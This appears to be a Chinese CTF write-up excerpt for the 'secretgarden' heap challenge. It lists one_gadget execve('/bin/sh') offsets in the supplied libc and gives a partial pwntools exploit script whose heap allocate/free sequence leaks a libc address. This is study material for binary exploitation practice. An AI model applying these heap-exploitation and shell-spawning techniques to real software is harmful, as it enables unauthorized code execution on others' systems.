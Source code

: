 ### one_gadget利用约束

本题给的libc有如下4个one_gadget：


```bash
➜  one_gadget libc_64.so.6 
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xef6c4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf0567 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

进行调试：

```python
from pwn import *

# challenge information
context(arch='amd64',os='linux',log_level='debug')
myelf  = ELF("./secretgarden")
libc   = ELF("./libc_64.so.6")
io     = process(myelf.path,env={"LD_PRELOAD" : libc.path})

# functions for quick script
sla     = lambda delim,data         :io.sendlineafter(delim, data) 

# misc functions
uu64    = lambda data   :u64(data.ljust(8, b'\0'))
leak    = lambda name,addr :log.success('{} : {:#x}'.format(name, addr))

# base addr
gdb_text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(io.pid)).readlines()[1], 16)
gdb_libc_base = int(os.popen("pmap {}| grep libc | awk '{{print $1}}'".format(io.pid)).readlines()[0], 16)

# debug function
def debug(addr=0,cmd='',PIE=True):
    if PIE: addr = gdb_text_base + addr
    log.warn("breakpoint_addr --> 0x%x" % addr)
    gdb.attach(io,"b *{}\nc\n".format(hex(addr))+cmd) 

add     = lambda len,name,color :  (sla("choice : ","1"),sla("name :",str(len)),sla("flower :",name),sla("flower :",color))
show    = lambda                :  (sla("choice : ","2"))
rm      = lambda num            :  (sla("choice : ","3"),sla("garden:",str(num)))
clear   = lambda                :  (sla("choice : ","4"))


add(500,"1","1")
add(0x28,'2','2')
add(10,'3','3')
rm(0);rm(1)
add(500,"","4")
show();io.recvuntil("flower[3] :")
```
